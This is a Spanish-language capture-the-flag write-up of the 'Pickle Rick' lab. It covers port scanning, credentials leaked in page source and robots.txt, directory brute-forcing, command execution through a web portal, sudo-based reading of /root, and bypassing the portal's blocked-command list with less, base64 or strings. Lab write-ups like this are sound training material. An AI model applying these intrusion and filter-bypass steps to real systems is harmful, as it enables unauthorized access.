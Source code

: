 # Pickle Rick

Fácil , poco realista, pero divertida
## Initial Scan 

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:63:2a:1d:06:ed:17:9a:e4:24:2c:02:a9:0f:da:0d (RSA)
|   256 86:67:93:65:7e:11:65:de:ed:6f:23:f8:18:97:c0:3a (ECDSA)
|_  256 be:c9:b6:80:d7:6e:76:d9:a1:a4:65:20:21:cf:0d:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

## Enum

### HTTP

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
 ```
  
 En robots .txt tenemos esto
 ```
 Wubbalubbadubdub
 ```
 Podría ser una contraseña
   
#### Gobusting
```
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

#### Login

Usamos las creds de anrtes para entra en login.php

En el fuente
```html
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```
Ni idea de que es ahora mismo

#### RCE

Tenemos un RCE en portal.php

#### Primer ingrediente

cat esta inhabilitado asi que usamos less para leer el primer ingrediente
```
mr. meeseek hair
```
#### Segundo ingrediente

Ejecutamos 
```
less /home/rick/*
```
Y tendriamos otro
```
1 jerry tear
```
Falta uno

## Privesc

Usando sudo -l en la web shell podemos ver lo siguiente
```
Matching Defaults entries for www-data on ip-10-10-50-6.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-50-6.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Asi que podemos leer dentro de /root sin problema

```
sudo less /root/3rd.txt
```


## Funny Fact 

El script del portal.php es el siguiente

```php
function contains($str, array $arr)
{
    foreach($arr as $a) {
        if (stripos($str,$a) !== false) 
            return true;
        }
    return false;
    }
    // Cant use cat
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
if(isset($_POST["command"])) {
    if(contains($_POST["command"], $cmds)) {
        echo "</br>
```

Con lo cual aparte de less podriamos haber usado base64 | base64 -d o strings
